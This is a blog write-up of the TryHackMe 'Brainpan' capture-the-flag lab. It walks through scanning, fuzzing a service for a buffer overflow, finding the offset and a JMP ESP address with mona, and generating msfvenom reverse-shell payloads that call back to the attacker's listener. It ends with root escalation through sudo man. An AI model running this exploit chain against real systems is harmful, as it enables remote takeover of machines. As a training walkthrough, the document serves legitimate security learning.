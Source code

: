 ```yaml
---
title: Brainpan Write-up | TryHackMe
slug: brainpan
author: Utkarsh M
date: '2022-06-14'
categories:
  - TryHackMe
tags:
  - write up
  - tryhackme
  - ctf
  - hard
  - red team

---
```


## ![screenshot](/assets/img/thm/Brainpan/1.png)

Running a threader3000 scan:

```bash
python threader3000.py
10.10.142.220
```

![screenshot](/assets/img/thm/Brainpan/2.png)

running suggested scan:

![screenshot](/assets/img/thm/Brainpan/3.png)

So our program runs at 9999 port, lets checkout the http server running at port 10000.

![screenshot](/assets/img/thm/Brainpan/4.png)

Running a dirbuster directory scan on the webserver:

```bash
gobuster dir --wordlist=/usr/share/dict/directory-list-2.3-medium.txt --url=http://10.10.142.220:10000/
```

![screenshot](/assets/img/thm/Brainpan/5.png)

and we have :) brainpan.exe. switching to windows VM and opening it in immunity debugger. :) Lets try interacting with it using netcat.

![screenshot](/assets/img/thm/Brainpan/6.png)

finding an offset: :) lets use pattern_create.rb from metasploit tools.

```
/opt/metasploit-git/tools/exploit/pattern_create.rb -l length
```

So starting the length from 100, Trying by multiplying length by 2. we Finally crash at 800.

lets find the offset by using mona.

Lets setup mona configuration first:

```shell
!mona config -set workingfolder c:\mona\%p
```

finding the offset :)

```shell
!mona findmsp -distance 800
```

![screenshot](/assets/img/thm/Brainpan/7.png)

We can see that the offset is 524. :)

writing a python script to send payloads :)

```python
import socket
import struct
TCP_IP = '192.168.122.138'
TCP_PORT = 9999
BUFFER_SIZE = 1024
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TCP_IP, TCP_PORT ))
payload = ""
overflow = "A"*524
retn = ""
padding = ""
msg = overflow + retn + padding + payload
s.recv(BUFFER_SIZE);
s.send(bytes(msg, "latin-1"))
print(s.recv(BUFFER_SIZE));
s.close()
print( "done")
```

:) Now we need to find the bad chars.

generating bytearray using mona:

```shell
!mona bytearray -b "\x00"
```

generating input byte array using python script:

```python
for x in range(1, 256):
print("\\x" + "{:02x}".format(x), end='')
print()
```

:) using it as the payload, BBBB as the return value and comparing using mona:

```shell
!mona compare -f "c:\mona\brainpan\bytearray.bin" -a MSP
```

![screenshot](/assets/img/thm/Brainpan/8.png)

Unmodified, So we are good to go. :)

Lets find a vulnerable JMP ESP return instruction using mona:

```shell
!mona jmp -r esp -cpb "\x00"
```

![screenshot](/assets/img/thm/Brainpan/9.png)

There’s only a single instruction. :) Lets use its address as the retn value:

Since we have to use little endian format, the retn value will be: `\xf3\x12\x17\x31`

Now Lets create a reverse shell payload, :) directly for meterpreter this time:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.17.47.158 LPORT=4444 -a x86 -b '\x00' -f c
```

Meterpreter, Launch Console & Load Handler:

```bash
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.17.47.158; set LPORT 4444; run"
```

Lets use a NOP padding of 16 bytes:

trying the payload on local VM machine:

![screenshot](/assets/img/thm/Brainpan/10.png)

success: :)

Lets try it on the THM machine.

![screenshot](/assets/img/thm/Brainpan/11.png)

success :P

OS info:

```
meterpreter > sysinfo
Computer        : brainpan
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : brainpan
Logged On Users : 1
Meterpreter     : x86/windows
```

_using meterpreter’s getsystem, We directly gain root privileges._

_Trying manual privilege escalation_ by using a shell and restarting the server:( I was not able to launch a shell in meterpreter due to the thread impersonation hellllll)

generating new payload:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=MY_MACHINE_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

setting up netcat listener

```bash
nc -lvnp 4444
```

![screenshot](/assets/img/thm/Brainpan/12.png)

WEIRD linux directories :o, damn. a lot of the things don’t work. :) at least we have python, which we can’t use and a lot of stuff like whoami doesn’t work either. ;-;

F, Hmm, It’s actually a linux machine running the program using wine. :\_; Got to know that, We can try a linux payload directly. + i couldn’t find a way to get out of the cmd shell using wineconsole. :O

so a new msfvenom :\_; payload:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.17.47.158 LPORT=4444 -b '\x00' EXITFUNC=thread -f c
```

![screenshot](/assets/img/thm/Brainpan/13.png)

better shell:

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

Hmm, lets start enumeration :)

```shell
sudo -l
```

We see an interesting application anansi_util.

![screenshot](/assets/img/thm/Brainpan/14.png)

launching the application with sudo :

![screenshot](/assets/img/thm/Brainpan/15.png)

so it seems to run shell commands inside. The first one runs ifconfig, while I get an error on the 2nd one about my terminal being unknown while the third gives man pages.

After checking out these applications in GTFObins, we can see that there is a sudo exploit available for man. :) lets exploit.

![screenshot](/assets/img/thm/Brainpan/16.png)

![screenshot](/assets/img/thm/Brainpan/17.png)

## :) Success.
